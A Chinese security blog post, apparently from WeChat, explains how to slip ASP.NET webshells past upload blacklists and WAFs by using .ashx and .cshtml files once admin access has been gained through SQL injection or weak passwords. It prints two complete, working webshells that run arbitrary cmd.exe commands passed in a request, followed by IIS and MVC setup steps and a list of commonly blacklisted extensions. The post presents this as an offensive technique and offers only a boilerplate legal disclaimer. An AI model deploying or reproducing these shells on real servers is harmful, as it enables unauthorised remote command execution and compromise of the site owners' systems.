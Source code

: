> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/FMZQpn9ck3bbPLUgdLDXUw)
| 

**声明：**该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。

请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。

**所有话题标签：**

[#Web 安全](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1558250808926912513&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#漏洞复现](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1558250808859803651&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#工具使用](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1556485811410419713&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#权限提升](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1559100355605544960&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)

[#权限维持](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1554692262662619137&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#防护绕过](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1553424967114014720&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#内网安全](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1559102220258885633&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#实战案例](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1553386251775492098&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)

[#其他笔记](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1559102973052567553&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#资源分享](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1559103254909796352&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect) [](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1559103254909796352&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect) [#MSF](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1570778197200322561&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)

 |

**0x01 前言**

我们通过 SQL 注入或弱口令等方式进入网站后台并找到上传地址，但是在上传 Webshell 时发现存在黑名单限制或者某些 WAF 防护时是无法成功的。

这时可以尝试使用 ashx 和 cshtml 脚本文件来绕过上传的黑名单限制。以前有看到过很多这样的绕过案例，所以将这个技巧记录在此，便于日后查询使用！

**常见黑名单****禁止上传脚本有：**

<table><tbody><tr><td width="617" valign="top">asp、asa、cer、cdx、htr、stm；</td></tr><tr><td width="617" valign="top">php、php4、php5、phtml；</td></tr><tr><td width="617" valign="top">aspx、ashx、ascx；</td></tr><tr><td width="617" valign="top">jsp、jspx、jspf；</td></tr><tr><td width="617" valign="top">cfm、shtml；</td></tr></tbody></table>

**0x02 Ashx Webshell**

中国菜刀 Ashx 马：

https://github.com/tennc/webshell/blob/master/caidao-shell/customize.ashx

```
<% @ webhandler language="C#" class="AverageHandler" %>
using System;
using System.Web;
using System.Diagnostics;
using System.IO;

public class AverageHandler : IHttpHandler
{
  /* .Net requires this to be implemented */
  public bool IsReusable
  {
    get { return true; }
  }

  /* main executing code */
  public void ProcessRequest(HttpContext ctx)
  {
    Uri url = new Uri(HttpContext.Current.Request.Url.Scheme + "://" +   HttpContext.Current.Request.Url.Authority + HttpContext.Current.Request.RawUrl);
    string command = HttpUtility.ParseQueryString(url.Query).Get("cmd");

    ctx.Response.Write("<form method='GET'>Command: <input );
    ctx.Response.Write("<hr>");
    ctx.Response.Write("<pre>");

    /* command execution and output retrieval */
    ProcessStartInfo psi = new ProcessStartInfo();
    psi.FileName = "cmd.exe";
    psi.Arguments = "/c "+command;
    psi.RedirectStandardOutput = true;
    psi.UseShellExecute = false;
    Process p = Process.Start(psi);
    StreamReader stmrdr = p.StandardOutput;
    string s = stmrdr.ReadToEnd();
    stmrdr.Close();

    ctx.Response.Write(System.Web.HttpUtility.HtmlEncode(s));
    ctx.Response.Write("</pre>");
    ctx.Response.Write("<hr>");
    ctx.Response.Write("By <a href='http://www.twitter.com/Hypn'>@Hypn</a>, for educational purposes only.");
 }
}
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOctYbsLOPwxwVZWOzIYnKa1u0sDggG5fj3p3lLTzJrCmvkcp7iataDxCzibY2zmohbzZLIU9dD5ktsw/640?wx_fmt=png)

Ashx Webshell 执行命令

**0x03 Cshtml Webshell**

```
@using System.CodeDom.Compiler;
@using System.Diagnostics;
@using System.Reflection;
@using System.Web.Compilation;

@functions {
  string ExecuteCommand(string command, string arguments = null)
  {
    var output = new System.Text.StringBuilder();
    var process = new Process();
    var startInfo = new ProcessStartInfo
    {
      FileName = command,
      Arguments = arguments,
      WorkingDirectory = HttpRuntime.AppDomainAppPath,
      RedirectStandardOutput = true,
      RedirectStandardError = true,
      UseShellExecute = false
    };

    process.StartInfo = startInfo;
    process.OutputDataReceived += (sender, args) => output.AppendLine(args.Data);
    process.ErrorDataReceived += (sender, args) => output.AppendLine(args.Data);
    process.Start();
    process.BeginOutputReadLine();
    process.BeginErrorReadLine();
    process.WaitForExit();

    return output.ToString();
  }
}

@{
  var cmd = ExecuteCommand("cmd.exe", "/c whoami");
}

Output of the injected command (by Niemand):
  @cmd
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOctYbsLOPwxwVZWOzIYnKa1SPRjpVcWUiarlAZoBlibSxWM981hvQ5Ol2ib2c16nRLE0H4m8rzdgTiakw/640?wx_fmt=png)

Cshtml Webshell 执行命令

**0x04 MVC4.0 环境部署**

本地测试环境为 Windows2012 IIS8.5，默认已安装有. Net FrameWork 4.0，自己下载并安装 ASP.NET MVC 4.0，将 IIS 中的 “ISAPI 和 CGI 限制” 选项的 “ASP.NET v4.0.0.30319” 设置为允许，然后在网站根目录下创建一个 web.config 配置文件即可，内容如下：

```
<configuration>
    <system.web>
        <customErrors mode="Off"/>
    </system.web>
    <appSettings>     
        <add key="webPages:Version" value="2.0"/>
    </appSettings>
</configuration>
```

**.Net FrameWork 4.0 下载地址：**  

```
https://www.microsoft.com/zh-CN/download/details.aspx?id=17851
```

**ASP.NET MVC 4.0 **下载地址**：  
**

```
https://www.microsoft.com/zh-CN/download/details.aspx?id=30683
```

**注：**如果当前网站根目下没有 web.config 配置文件，或者没有指定. NET 版本，在浏览器访问时可能就会出现以下报错信息。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOctYbsLOPwxwVZWOzIYnKa1gP5IUzxcYdXhKFClRZBn7MHJJuMaroAdK7GvFEynaZhzwPprf5Uz0g/640?wx_fmt=png)

没有 web.config 文件报错

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOctYbsLOPwxwVZWOzIYnKa1wx4pEvMK82KPIF0tsHDeIMWoNmx8P4QrKicf2cMhniapAlp6DafkWPyg/640?wx_fmt=png)

没有指定. NET 版本报错  

只需在公众号回复 “9527” 即可领取一套 HTB 靶场学习文档和视频，“1120” 领取安全参考等安全杂志 PDF 电子版，“1208” 领取一份常用高效爆破字典，还在等什么？

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfSyD5Wo2fTiaYRzt5iaWg1GJk2Cx54PBIoc0Ia3z1yIfeyfUV61mn3skB5bGP3QHicHudVjMEGhqH4A/640?wx_fmt=png)
